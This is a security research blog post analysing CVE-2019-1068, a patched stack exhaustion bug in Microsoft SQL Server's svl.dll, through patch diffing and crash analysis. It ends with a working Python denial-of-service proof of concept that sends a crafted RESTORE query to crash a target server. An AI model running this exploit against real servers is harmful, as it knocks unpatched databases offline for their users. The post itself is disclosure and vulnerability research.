 ```yaml
---
title: Discovering an Undisclosed Stack Overflow Vulnerability in Microsoft SQL Server
  (CVE-2019-1068)
layout: post
date: '2021-02-06 08:33:54'
---
```


### Root cause analysis and PoC for a Microsoft SQL Server Stack Overflow Vulnerability by reversing "svl.dll".
### 1. Introduction

We would like to share one of our vulnerability analysis works in this blog post which covers a silently patched stack based memory corruption vulnerability (CVE-2019-1068) in svl.dll, which can be used for a Denial of Service and a possible Remote Code Execution. This blog post is also shared on blogs of  [Ataberk](https://0xsaiyajin.github.io/) and [Fatih](https://medium.com/@fecassie).

This issue affects the following versions of Microsoft SQL Server:
* Microsoft SQL Server 2014
* Microsoft SQL Server 2016
* Microsoft SQL Server 2017 

It was patched on 9 July 2019. More information about this issue can be found [here](https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2019-1068).

This blog post describes the root cause analysis and includes the Proof of Concept script.

### 2. Details of CVE-2019-1068

In the beginning, we searched for the undisclosed memory corruption vulnerabilities of Microsoft SQL Server from MSRC’s web portal. As seen on the screenshot below, CVSS v3.0 score of the vulnerability was calculated as 8.8 (High) on NVD of NIST. 

![1]({{site.url}}/assets/windows_mssql/1.png)


After a short discussion, we jumped into patch analysis of the vulnerability, we started with the description page of the vulnerability. 

The summary of the affected versions is listed below.

![2]({{site.url}}/assets/windows_mssql/2.png)

**Executive Summary**

*A remote code execution vulnerability exists in Microsoft SQL Server when it incorrectly handles processing of internal functions. An attacker who successfully exploited this vulnerability could execute code in the context of the SQL Server Database Engine service account.* ***To exploit the vulnerability, an authenticated attacker would need to submit a specially crafted query to an affected SQL server.*** *The security update addresses the vulnerability by modifying how the Microsoft SQL Server Database Engine handles the processing of functions.*

The executive summary tells that an authenticated attacker would need to run a crafted query. By considering this summary, our work focused on SQL Server’s query handler engine.


### 3. Patch Analysis

By comparing the difference across all of the files in Cumulative Update 14 and Cumulative Update 15 we discovered the patched DLL.

It’s possible to see that only a few functions of “svl.dll” were patched:
* SvlPathUtilIsCrossPlatform(ushort const * const)
* SvlPathUtilHasDriveLetter(ushort const * const)
* SvlPathHandlerT\<UriPathTraits>::ValidatePath(ushort const * const)
* SvlPathHandlerT\<XPlatPathTraits>::ValidatePath(ushort const * const)

This can be seen on the screenshot below:

![3]({{site.url}}/assets/windows_mssql/3.png)

The patched version contains the following function:
* SvlPathUtilHasDriveLetter(ushort const * const)

When we look into the difference between two updated versions, it’s possible to see one of these functions processes a user-generated string even if it is not in a valid path format.

![4]({{site.url}}/assets/windows_mssql/4.png)

As seen on the screenshot above, the vulnerable version of the function has fewer lines of code.

Both versions of the “SvlPathUtilHasDriveLetter” use the [iswalpha](https://docs.microsoft.com/en-us/cpp/c-runtime-library/reference/isalpha-iswalpha-isalpha-l-iswalpha-l?view=msvc-160#return-value) function to check if the first character of the user-controlled input string is between A and Z. Additionally they both check if the second character of the string equals to “:” character or not.



The improvement in the updated code block adds an extra check on the third character of the input string. It checks if the third character is one of **“\”** or **“/”** characters. Function returns **“1”** and the program continues properly if all conditions meet the requirements.

### 4. Triggering the Bug

To trigger the bug, all we needed was to create a crafted SQL query which includes a path value that triggers the vulnerable function in CU14. We looked for a way of doing it on Microsoft’s online documentations as seen on the screenshot below. 

![6]({{site.url}}/assets/windows_mssql/6.png)

After several attempts, we were able to trigger the vulnerability by using the following command on the screenshot. Whenever this SQL Query is processed by SQL Server, it crashes. 

![7]({{site.url}}/assets/windows_mssql/7.png)

### 5. Crash Analysis

The dynamic analysis process was started by attaching the SQL server to WinDBG. During the analysis, it was observed that none of the user-controlled inputs were written in any part of the memory.

As seen on the screenshot below which shows the call stack analysis step, **“svl!PositionT\<Win32PathTraits>::SetBuffer”** is called by the vulnerable DLL then the program flow continues with the **“svl!SvlPathHandlerT\<Win32PathTraits>::NormalizePath”** function.

We discovered that **“svl!SvlPathHandlerT\<Win32PathTraits>::NormalizePath”** function interacts with **“svl!SvlPathUtilHasDriveLetter”** function which doesn’t have a proper input validation against malformed **“path”** strings.

Eventually, this corruption leads to an infinite recursive call of the **“sqlmin!CheckFileStreamReserved”** function therefore stack exhaustion occurs.

![8]({{site.url}}/assets/windows_mssql/8.png)

![9]({{site.url}}/assets/windows_mssql/9.png)

### 6. Conclusion

According to MSRC’s web portal, this vulnerability seems to lead to an RCE impact. We tried to achieve this impact by using some publicly known methods. Unfortunately, it seems to be leading to a stack exhaustion DoS vulnerability.

### 7. PoC - Exploit (Denial of Service)

```py
#!/usr/bin/env python

__DATE__ = '05.02.2021'
__VERSION__ = 0.1

import pypyodbc as pyodbc
import sys
import argparse

parser = argparse.ArgumentParser()
parser.add_argument('-t', '--target-host', help="Target Host", action="store", required=True)
parser.add_argument('-u', '--user', help="SQL Server Username", action="store", required=True)
parser.add_argument('-p', '--password' , help="SQL Server Password", action="store", required=True)
args = parser.parse_args()

connection_string = 'Driver={SQL Server};Server=' + args.target_host + ';' + ';UID=' + args.user + ';PWD=' + args.password + ';'
conn = pyodbc.connect(connection_string)
cursor = conn.cursor()

try:
    cursor.execute("RESTORE FILELISTONLY FROM DISK='C:AAA';")
except pyodbc.DatabaseError as e:
    print("Crashed.")
    exit(0)

```
